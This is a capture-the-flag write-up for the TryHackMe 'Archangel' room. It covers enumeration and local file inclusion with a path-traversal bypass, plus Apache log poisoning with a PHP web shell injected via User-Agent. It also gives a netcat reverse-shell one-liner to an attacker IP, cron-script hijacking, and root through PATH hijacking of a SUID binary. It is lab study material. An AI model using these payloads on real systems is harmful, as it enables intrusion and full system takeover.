









# Arch Angel (THM)

- https://tryhackme.com/room/archangel
- March 7, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.29 ((Ubuntu))

### HTTP

- directory brute forcing with ffuf

```
flags
images
layout
pages
```

- in question, Find a different hostname
- it is mafialive.thm


- in local machine, /etc/hosts file, add IP and hostname
- try to brute force, subdomains

```sh
 ffuf -u http://$IP -w /usr/share/wordlists/dnsnames.txt -H "Host: FUZZ.mafialive.thm" -c -t 128 -fw 2646
```

```
cscplatform
```

- oh, it is the same page
- forget to see the `http://mafialive.thm`



- brute force directories that url
- in robots.txt, found a test page



- clicking the button request to
  `http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php`

- it may be possible factor for LFI
- try to include this test.php page
- it shows nothing
- try with php filter base64 encode

```sh
curl http://mafialive.thm/test.php\?view\=php://filter/convert.base64-encode/resource\=/var/www/html/development_testing/test.php
```

- get base64 encoded version of test.php page



- from this, view parameter must contain `/var/www/html/development_testing` and must not contain `../../`
- so, I tried like this to include `/etc/passwd` file

```sh
curl http://mafialive.thm/test.php?view=/var/www/html/development_testing/./.././.././.././.././.././.././../etc/passwd
```

- I don't know how to get shell, hint said `Poison` and I think I have to do poison the access.log file which may contain in `/var/log/apache2/access.log`



- `access.log` file contain user-agent that we can inject



- inject `User-Agent` - `<?php system($_GET['cmd']); ?>`
- then request with cmd parameter that as we wish to perform code execution



## User Access

- to get user access,
  - listen at our local machine with nc
  - then get request with `cmd` parameter, that will bind to our shell
  - `cmd=rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f`



- find all the system and found that at cron job

```sh
$ whoami
www-data
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

- `archangel` user run `/opt/helloworld.sh` at every minute
- the `helloworld.sh` file has read,write access to everyone
  `-rwxrwxrwx  1 archangel archangel   66 Nov 20  2020 helloworld.sh`
- make another reverse shell, this time we will get `archangel` user
  - listen with nc (another port)
  - overwrite the `helloword.sh` file with code that will bind to our shell
  - wait for at most 1 minute to get reverse shell



- to get an easy and nice shell login with ssh, make a .ssh folder in home directory
- at local machine, create id_rsa pair with ssh-keygen and copy the content of id_rsa.pub file and save as authorized_keys inside `/home/archangel/.ssh/authorized_keys`
- then login with `id_rsa`, as `archangel` user



## Root Access

- find SUID bits

```sh
archangel@ubuntu:~$ find / -perm -4000 2> /dev/null
...
/home/archangel/secret/backup

```

- backup file `-rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup` has suid bit of root user

```sh
archangel@ubuntu:~/secret$ ./backup
cp: cannot stat '/home/user/archangel/myfiles/*': No such file or directory
```

- it may call the `cp` command
- create `cp` file under `tmp` folder

```sh
archangel@ubuntu:~/secret$ cd /tmp
archangel@ubuntu:/tmp$ echo '/bin/bash -p' > cp
archangel@ubuntu:/tmp$ chmod 777 cp
archangel@ubuntu:/tmp$ ls -la | grep cp
-rwxrwxrwx  1 archangel archangel   13 Mar  7 21:18 cp
```

- checking the $PATH

```sh
archangel@ubuntu:~/secret$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- export the `/tmp` folder to be execute at first, then run the backup file

```sh
archangel@ubuntu:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- this means if `cp` is run, it will check according to `PATH` variables and `cp` under `/tmp` folder will be executed

```sh
archangel@ubuntu:~/secret$ ./backup
root@ubuntu:~/secret# whoami
root
root@ubuntu:~/secret# id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
```

---
